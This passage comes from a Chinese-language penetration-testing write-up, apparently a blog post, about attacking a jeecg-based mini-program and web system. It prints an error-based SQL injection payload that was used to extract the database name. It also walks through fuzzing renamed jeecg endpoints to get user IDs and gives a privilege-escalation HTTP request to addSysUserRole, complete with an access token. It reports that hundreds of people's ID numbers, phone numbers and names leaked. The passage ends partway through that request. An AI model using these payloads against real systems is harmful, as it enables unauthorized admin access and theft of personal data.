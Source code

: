  
  
然后每个表里面都泄露了好几百个个人敏感信息，比如身份证、手机号、姓名之类的  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWYqyJBSm3GBzeNhSjmhtM9HJk7u8viaK8b5L6yd9RgxykxCohZfdwEguo6OL7iaYjWonLhfEqt4gcA/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
**0x4 SQL注入漏洞**  
  
  
  
这个小程序的一个接口还存在SQL注入漏洞，通过测试，直接可以注入出数据库名称，直接又一个SQL注入到手了  
  

```
SQL注入payload：updatexml(1,concat(0x7e,user(),0x7e),1)
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWYqyJBSm3GBzeNhSjmhtM9RFRLBwta29JNR8LbZnxYDzRhuLEkvicd6muWPlBicqKIIu6X0XezDU9w/640?wx_fmt=png&from=appmsg "")  
  
  
  
**0x5 添加管理员用户**  
  
  
  
师傅们，其实测试到这里，这个系统小程序和web端都摸熟悉了，就是jeecg的系统框架，里面的很多接口都是jeecg开发默认的接口名称，但是前面的路径发生了一点变化，没有原班直接拿jeecg的接口使用，但是经过FUZZ测试出来了很多接口，这里给师傅们分享下，我先注册一个账号，然后提权到admin管理员账号的过程。  
  
  
首先我使用register注册接口，注册一个账号  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWYqyJBSm3GBzeNhSjmhtM9rSgBrTs2nkoV2SekImF2VLX70UdicWEiaI7ekc68MBX36dQEjkRLPmDg/640?wx_fmt=png&from=appmsg "")  
  
  
  
下面就是提权的一个操作了，需要再次FUZZ接口，因为打jeecg漏洞多的师傅们，都知道，jeecg有很多的接口，像什么注册、查信息，查user_id，查所以账号的token值，还有用户敏感信息等，但是现在很多系统都不会直接拿jeecg都路径接口部署了，多多少少会进行魔改  
  
  
这里首先需要查询管理员admin的账户ID  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWYqyJBSm3GBzeNhSjmhtM9WfWPn2VHP0MSSP95JtUhzqW0Tt2kx9nVVgKzlHXPJErmbwfiaI4Nk3g/640?wx_fmt=png&from=appmsg "")  
  
  
  
然后查询自己刚才创建用户的ID值  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWYqyJBSm3GBzeNhSjmhtM9FRpoF89TRHvciaNIhPkCXJcpYQKr8ucPHUuVdpw8UYL0qsiaib5vVoyiaA/640?wx_fmt=png&from=appmsg "")  
  
  
  
然后使用打提权使用的jeecg漏洞poc，如下：  
  
  
//roleld填写需要提权的角色id userldList填写自己的id  
  

```
POST xxxxx/jeecg-boot/sys/user/addSysUserRole（jeecg接口，需要自己去尝试，不一定是我这个） HTTP/1.1
Host: 
Cookie: cna=Ov9SH4RxGiACAf////9C18zb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Access-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MjUzNzMyNDMsInVzZXJuYW1lIjoiMTEwMTAyIn0.NXRckymfKdZvEFsDQZ9Jwvk_rU_gVny2Rx6A
Tenant-Id: 0
Origin:
Dnt: 1
Referer: 
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
```